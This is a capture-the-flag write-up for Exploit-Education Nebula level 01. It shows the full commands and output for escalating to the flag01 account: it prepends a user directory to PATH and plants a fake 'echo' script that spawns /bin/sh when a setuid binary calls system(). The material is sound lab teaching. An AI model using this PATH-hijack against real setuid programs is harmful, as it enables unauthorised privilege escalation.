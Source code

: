 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 01"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 1](https://exploit.education/nebula/level-01/)

## Challenge

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

## Analysis

lets look at the program permissions first 

``` bash
level01@nebula:/home/flag01$ ls -la
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

```
The program `flag0` has the `setuserid` bit set
lets see where the vulnerability is in the program

## Vulnerability 

``` bash
system("/usr/bin/env echo and now what?");
```
We can see that the system look for echo program in the directories mentioned in the environment variable `PATH`

``` bash
level01@nebula:/bin$ env | grep PATH
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/home/flag01$ which echo
/bin/echo
```
So `echo` from `/bin/` directory is executed. So if we can add another directory before `/bin` in `PATH` 
and write an echo program, we can run any code we want

## Exploitation

Lets add `/home/level01/` to path variable and create an file echo that will execute a shell
``` bash
level01@nebula:/$ PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level01@nebula:/$ export PATH
level01@nebula:/$ env | grep PATH
PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/$ cd /home/level01
level01@nebula:~$ nano echo
```
Contents of `echo` file 
``` bash
echo "Excecuting Shell"
/bin/sh
```
Lets run `flag01` now
``` bash
level01@nebula:/home/flag01$ ./flag01
Excecuting Shell
sh-4.2$ whoami
flag01
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$ which echo
/home/level01/echo
sh-4.2$
```
### Solved!